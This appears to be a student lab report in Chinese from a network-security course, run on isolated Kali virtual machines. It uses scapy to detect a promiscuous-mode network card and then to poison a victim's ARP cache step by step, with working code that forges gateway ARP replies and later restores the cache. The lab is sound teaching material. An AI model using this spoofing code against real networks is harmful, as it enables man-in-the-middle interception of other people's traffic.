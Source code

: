 # 网络监听



## 网络拓扑

![topological](img/topological.jpg)

如图所示网络中的节点基本信息如下：

* 攻击者主机(Kali-Attacker)
    * `08:00:27:aa:f0:71` / `eth0`
    * `172.16.111.123`
* 靶机(Kali-Victim)
    * `08:00:27:bc:fe:e9` / `eth0`
    * `172.16.111.134`
* 网关
    * `08:00:27:4a:b3:d7` / `enp0s9`
    * `172.16.111.1`



## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

安装成功：

![scapy_install_success](img/scapy_install_success.jpg)

## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![victim_eth0](img/victim_eth0.jpg)


```bash
# 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
sudo scapy
```

![attacker_scapy_start](img/attacker_scapy_start.jpg)

```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.134")
```

![scapy_pkt](img/scapy_pkt.jpg)

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth1 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![start_victim_promisc](img/start_victim_promisc.jpg)


```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.134")
```

![difference_attacker](img/difference_attacker.jpg)

```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

![victim_promisc_off](img/victim_promisc_off.jpg)

查阅资料，`promiscping` 命令会发送 `ARP who-has` 请求。

> - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
> - 普通模式 网卡只接收发给本机的包

可以看出在混杂模式下，受害者主机才能收到这个数据包。

在受害者主机上开启`Wireshark`抓包，也验证了这个问题。发送的包并没有指定目的主机的MAC地址，所以普通模式下发送不会成功



## 实验二：手工单步“毒化”目标主机的 `ARP` 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

### 获取当前局域网的网关 MAC 地址

```python
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![experiment2_1](img/experiment2_1.jpg)

```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
gw_mac
```

![gateway_mac_get](img/gateway_mac_get.jpg)

### 伪造网关的 `ARP` 响应包
```bash
# 攻击者主机准备发送给靶机 172.16.111.134
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址

# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.134", hwdst="08:00:27:bc:fe:e9")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![forge_ARP](img/forge_ARP.jpg)

此时在受害者主机上查看 `ARP` 缓存会发现网关的 MAC 地址**已被「替换」为攻击者主机的 MAC 地址**

```bash
ip neigh
```

![repalce_success](img/repalce_success.jpg)

### 恢复靶机的 `ARP` 缓存记录(回到攻击者主机上的 scapy 交互式终端继续执行命令。)
```python
## 伪装网关给靶机发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:4a:b3:d7", pdst="172.16.111.134", hwdst="08:00:27:bc:fe:e9")
sendp(restorepkt1, count=100, inter=0.2)
```

![recovery](img/recovery.jpg)

此时在受害者主机上准备“刷新”网关 `ARP` 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![victim_recovery](img/victim_recovery.jpg)



## 需要注意的问题：

1. 注意Kali_Attacker配置Host-Only网络，否则安装不了东西。
2. 勤备份，出错了好改。



## 参考链接：

- [网络安全课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos)

